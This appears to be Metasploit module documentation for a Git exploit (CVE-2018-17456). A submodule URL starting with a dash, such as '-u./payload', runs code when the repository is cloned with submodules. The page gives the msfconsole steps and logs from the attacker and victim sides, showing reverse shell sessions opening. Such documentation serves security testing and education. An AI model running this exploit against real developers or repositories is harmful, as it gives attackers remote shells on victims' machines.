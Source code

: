 ## Description

  This module exploits CVE-2018-17456, which affects Git versions 2.14.5, 2.15.3, 2.16.5, 2.17.2, 2.18.1, and 2.19.1 and lower.  

  When a submodule url which starts with a dash e.g "-u./payload" is passed as an argument to git clone, the file "payload" inside the repository is executed.

  This module creates a fake git repository which contains a submodule containing the vulnerability. The vulnerability is triggered when the submodules are initialised (e.g git clone --recurse-submodules URL)

## Vulnerable Application

  Git can be installed on a variety of operating systems, however
  newer versions will contain the patch for this vulnerability.

  On OSX it can be installed with the XCode command line tools:
  `xcode-select --install`
  
  On Linux it can be installed with apt:
  `sudo apt-get update && sudo apt-get install git`

  You can check the version with `git --version`.
  The fix is included in the following version:
    2.7.6, 2.8.6, 2.9.5, 2.10.4, 2.11.3, 2.12.4, 2.13.5, 2.14.1

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/multi/http/git_submodule_url_exec`
  1. Do: `set LHOST [local host]`
  1. Do: `exploit`
  1. Clone the malicious Git URI and its submodules (e.g `git clone --recurse-submodules GIT_URL`)
  1. You should get a shell

## Options

  **GIT_URI**

  This is the URI the git repository will be hosted from (defaults to random).

  **GIT_SUBMODULE**

  This is the URI of the submodule within the git repository (defaults to random).
  The url of this submodule, when cloned, will execute the payload.

## Scenarios


```
msf > use exploit/multi/http/git_submodule_url_exec
msf exploit(multi/http/git_submodule_url_exec) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(multi/http/git_submodule_url_exec) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.1:4444
msf exploit(multi/http/git_submodule_url_exec) > [*] Using URL: http://0.0.0.0:8080/yaDlXuHVnRMMYGQ
[*] Local IP: http://192.168.0.1:8080/yaDlXuHVnRMMYGQ
[*] Server started.
[*] Malicious Git URI is http://192.168.0.1:8080/ogkvs.git
[*] Command shell session 1 opened (192.168.0.1:4444 -> 192.168.0.1:41034) at 2018-10-18 12:41:40 +0000
[*] Command shell session 2 opened (192.168.0.1:4444 -> 192.168.0.1:41036) at 2018-10-18 12:41:41 +0000
```

On the victim side:

```
git clone --recurse-submodules http://192.168.0.1:8080/ogkvs.git
Cloning into 'ogkvs'...
Submodule 'lfr:lr' (-u./rDwoZ) registered for path 'lfr:lr'
Cloning into 'lr'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
fatal: clone of '-u./rDwoZ' into submodule path 'ogkvs/lfr:lr' failed
Failed to clone 'lfr:lr'. Retry scheduled
Cloning into 'lr'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
fatal: clone of '-u./rDwoZ' into submodule path 'ogkvs/lfr:lr' failed
Failed to clone 'lfr:lr' a second time, aborting
```
